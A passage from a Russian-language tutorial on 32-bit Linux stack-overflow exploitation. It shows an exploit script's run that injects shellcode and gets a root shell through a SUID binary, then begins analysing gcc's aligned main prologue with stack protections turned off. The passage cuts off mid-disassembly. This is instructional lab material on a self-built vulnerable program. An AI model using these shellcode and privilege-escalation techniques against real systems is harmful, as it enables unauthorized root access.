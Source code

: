 По умолчанию эксплоит самостоятельно вызовет программу с необходимым аргументом, однако, если есть необходимость вручную передать вредонос, достаточно закомментировать 7-ю строку скрипта, содержащую импорт call.

```
$ python exploit.py
Input: jFX111j
              XRh//shh/binRSAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
# id
uid=0(root) gid=1000(snovvcrash) groups=1000(snovvcrash),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```

Вот здесь уже сыграло роль то, что ранее мы присвоили бинарнику SUID-бит — шелл получен с привилегиями root без использования sudo при запуске программы.

Для написания подобного рода скриптов лучше пользоваться второй версией Python в силу особенностей работы с кодировками для строкового типа данных. К тому же, на Python 2 написан самый популярный модуль, облегчающий эксплуатацию бинарных уязвимостей — [pwntools](https://github.com/Gallopsled/pwntools). К сожалению, pwntools не работает на дистрибутивах 32-битной архитектуры, поэтому оставим его использование [до часа](!!!!!!!!!!!!) эксплуатации 64-битных бинарей.

# Обход нового пролога функции main

Готовя эту статью, я заметил, что одним из [часто](https://security.stackexchange.com/questions/110943/how-to-exploit-a-stack-overflow-without-setting-mpreferred-stack-boundary-2) [задаваемых](https://security.stackexchange.com/questions/147119/32bits-linux-simple-stack-overflow-eip-never-overwritten) [вопросов](https://security.stackexchange.com/questions/121242/unable-to-overwrite-eip-register) от людей, которые проходят уроки по переполнению стека, является вопрос, связанный с [относительно](https://stackoverflow.com/questions/11886429/understanding-new-gcc-prologue) новым прологом функции `main` компилятора gcc для Linux, который пришел вместе с необходимостью выравнивать стек по 16-байтовой границе (требуется для корректной работы сета инструкций [SSE2](https://ru.wikipedia.org/wiki/SSE2)).

Так как ни одного доступного примера кода для переполнения в таких условиях я не нашел, в этом параграфе разберем особенности ассемблера в случае, когда при компиляции мы не меняем дефолтное выравнивание с помощью опции `-mpreferred-stack-boundary`, и разработаем для него эксплоит.

## Теория

Если не использовать флаг `-mpreferred-stack-boundary=2` (см. начало статьи), то это будет означать то же самое, как если бы мы передали значение `-mpreferred-stack-boundary=4` — стековый фрейм функции main будет выровнен на 16 байт.

Пересоберем программу и запросим листинг ассемблера.

```
$ gcc -g -Wall -Werror -O0 -m32 -fno-stack-protector -z execstack -no-pie -Wl,-z,norelro -o overflow overflow.c
$ gdb -batch -ex 'file ./overflow' -ex 'disas main'
Dump of assembler code for function main:
   0x0804841b <+0>:     lea    ecx,[esp+0x4]
   0x0804841f <+4>:     and    esp,0xfffffff0
   0x08048422 <+7>:     push   DWORD PTR [ecx-0x4]
   0x08048425 <+10>:    push   ebp
   0x08048426 <+11>:    mov    ebp,esp
   0x08048428 <+13>:    push   ecx
   0x08048429 <+14>:    sub    esp,0x84
   0x0804842f <+20>:    mov    eax,ecx
   0x08048431 <+22>:    mov    eax,DWORD PTR [eax+0x4]
   0x08048434 <+25>:    add    eax,0x4
   0x08048437 <+28>:    mov    eax,DWORD PTR [eax]
   0x08048439 <+30>:    sub    esp,0x8
   0x0804843c <+33>:    push   eax
   0x0804843d <+34>:    lea    eax,[ebp-0x88]
   0x08048443 <+40>:    push   eax
```

[//]: # (2019-09-20)